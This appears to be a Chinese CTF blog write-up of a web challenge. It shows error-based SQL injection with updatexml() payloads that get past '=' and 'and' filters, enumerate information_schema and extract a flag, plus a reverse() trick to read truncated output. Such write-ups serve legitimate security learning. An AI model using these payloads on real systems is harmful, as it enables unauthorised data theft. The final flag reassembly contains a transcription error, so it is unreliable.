<!--yml
category: 未分类
date: 2022-04-26 14:54:12
-->

# 第三届上海市大学生网络安全大赛 i春秋CTF Web解题思路_曹振国cc的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_45736958/article/details/116329558](https://blog.csdn.net/weixin_45736958/article/details/116329558)

### 1.发现SQL注入



```
?id=1			有数据
?id=2			有数据
?id=2-1			有数据 
```

### 2.尝试SQLMap

<font>发现报错：
</font>

### 3.经实验发现过滤了"=“和"and”

发现页面会返回错误信息，尝试报错注入：


```
用到函数:updatexml
updatexml(目标xml内容，xml文档路径，更新的内容)
查询库名
?id=updatexml(1,concat(0x7e,(select database()),0x7e),1)  发现库名：word 
```



```
查询有多少张表:
?id=updatexml(1,concat(0x7e,(select count(*) from information_schema.tables ),0x7e),1) 
```



```
查询表名：
?id=updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 0,1),0x7e),1)
至
?id=updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 83,1),0x7e),1) 
```

发现有张**f14g**的表


```
查询字段数:
?id=updatexml(1,concat(0x7e,(select count(*) from information_schema.columns ),0x7e),1) 
```



```
查询字段名：
?id=updatexml(1,concat(0x7e,(select column_name from information_schema.columns limit 0,1),0x7e),1)
至
?id=updatexml(1,concat(0x7e,(select column_name from information_schema.columns limit 811,1),0x7e),1) 
```

找到**f14g**字段


```
读出数据
?id=updatexml(1,concat(0x7e,(select f14g from f14g),0x7e),1)
发现flag信息不全
flag{b892889e-6bbd-421d-b984-d6 
```

### reverse()函数




```
颠倒flag内容，从后往前取
?id=updatexml(1,concat(reverse((select f14g from f14g))),1)
}ef99546fdb6d-489b-d124-dbb6-e98 
```



### flag

```
flag{b892889e-6bbd-421d-b984-d6

}ef99546fdb6d-489b-d124-dbb6-e98
取反：
89e-6bbd-421d-b984-d6dbf64599fe}

flag{b892889e-6bbd-421d-b984-d66dbf64599fe} 
```

<font>所以最后flag为：flag{b892889e-6bbd-421d-b984-d66dbf64599fe}。</font>

* * *

## 总结

<font>不知道为什么i春秋里的这道题flag提交一直报错。。。。。。也是无语了</font>

